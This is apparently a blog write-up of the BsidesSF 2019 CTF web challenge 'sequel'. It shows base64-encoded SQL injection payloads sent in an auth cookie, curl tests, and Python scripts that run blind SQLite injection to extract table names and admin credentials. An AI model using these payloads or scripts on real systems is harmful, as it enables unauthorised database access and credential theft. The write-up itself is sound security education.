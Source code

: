 ```yaml
---
layout:     post
title:      'BsidesSF - sequel'
date:       2019-03-07 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'Write-ups'
---
```


BsidesSF was a great CTF, but as I could not finish many tasks withing the duration of the competition, I decided to come back to the ones with which I struggled the most. Here's my write up for ***sequel***, which is cool ***web*** challenge rated ***200*** points. 

```text
Location - https://sequel-9cba4c8e.challenges.bsidessf.net/
```

Firstly, we are given a link to the a service with a login form right at the index page. During the initial phase of my attack, I wanted to find some vulnerability in the form itself, but [@yodak5](https://twitter.com/yodak5) found that you can easily log in with a password combination of `guest:guest`. 

![Login Page](/img/bsidessf/sequel-login.png){:class="img-responsive center-block"}

After logging in, we can see a group of ratings for some hackers movies. One interesting thing is that line `Maybe the admin likes it too?`, which somehow gives us a hint that we should look for an admin user. 

![Movies Database](/img/bsidessf/sequel-database.png){:class="img-responsive center-block"}

Another interesting thing is a cookie that we're assigned after logging in.

```text
1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9
```

Decoding it from `base64` gives us `JSON` data of our username and password. 

```text
[w3ndige@main sequel]$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9" | base64 -d
{"username":"guest","password":"guest"}
```

And that's when I've hit the wall and could not get further into the challenge during the CTF. But coming back to it, with clear brain, I've decided to check some common vulnerabilites and one thing I've noticed was `Server Error` while checking for ***SQL Injection***. I've immedietaly started tinkering with it.  

```
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"2","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels
Invalid user.
```

In this example, our output is correct and we get `Invalid user` message. But once we change `2` to `1`, we are able to bypass the check. 

```html
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"1","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels

<!doctype html>
<html>
<body class='text-center'>

<h2>Sequel Movie Database</h2>
<div class="sequels-container">
  <table class="sequels table">
    <thead>
      <tr>
        <th>Movie</th>
        <th>Rating</th>
        <th>Private Note</th>
      </tr>
    </thead>
    <tbody>
        <tr>
          <td class='name'>Hackers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>War Games</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Swordfish</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Sneakers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>The Net</td>
          <td class='star-rating'><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
    </tbody>
  </table>
</div>

  </body>
</html>
```

You can see that we're logged in and the values of notes changed, now we can't see any note for the films. After a little bit of thinking I've came up with an idea to use blind sql injection to try and crawl the database as we get different responses - `Invalid login` if we get a false and otherwise - good page. 

But firstly, we have to find out what database engine it uses inside, whether it's ***MySQL***, ***SQLLite*** or something completely different. My solution was to just slighlty modify two versions of exploits, each made for each of those two engines and just hope some will find something. And luckily for me, it was ***SQLLite***. 

Let's start with the succesful payload. 

{% raw %}
```json
{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"a%\" limit 1) OR \"","password":"guest"}}
```
{% endraw %}

Here we use `EXISTS` function to see if we get any result from the subquery that will select every name from the `sqlite_master`. In addition it checks if the name starts with a provided letter, in this example, `a`.

As we don't want to do this manually, let's write a simple Python script.

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        payload = r'{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

During the first run, we get a `notes` table, but we can still look for others by just ignoring `n` letter. Add this snippet just before the `payload` - `if letter == 'n': continue`. 

```text
[w3ndige@main sequel]$ python exploit.py 
notes%
```

With this methodology, I've found `reviews` table. 

```text
[w3ndige@main sequel]$ python exploit.py 
reviews%
```

At this point I wanted to extract information from this table but could not find any column name that would succesfuly execute my query. Luckily, I've found another table worth noticing.

```text
[w3ndige@main sequel]$ python exploit.py 
uSeRiNfo%
```
Letters are in mixed cases as I've ignored the ones that found the tables previously. Luckily our `LIKE` statement isn't case sensitive so we can replace the letters with the lower case. 

If we have `userinfo` table, we can now try to extract the usernames and passwords. We have to remember that `guest` is already in the database, so that's a letter to ignore. 

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        if letter == 'g': continue

        payload = r'{{"username":"\" OR EXISTS(SELECT username FROM userinfo WHERE username LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

With that script we can get username, and password. Just change the username to password.

```
[w3ndige@main sequel]$ python exploit.py 
sequeladmin%%
[w3ndige@main sequel]$ python exploit.py 
f5ec3af19f0d3679e7d5a148f4ac323d%%
```

Now we can log in with this credentials and flag is right there.

![Flag](/img/bsidessf/sequel-flag.png){:class="img-responsive center-block"}
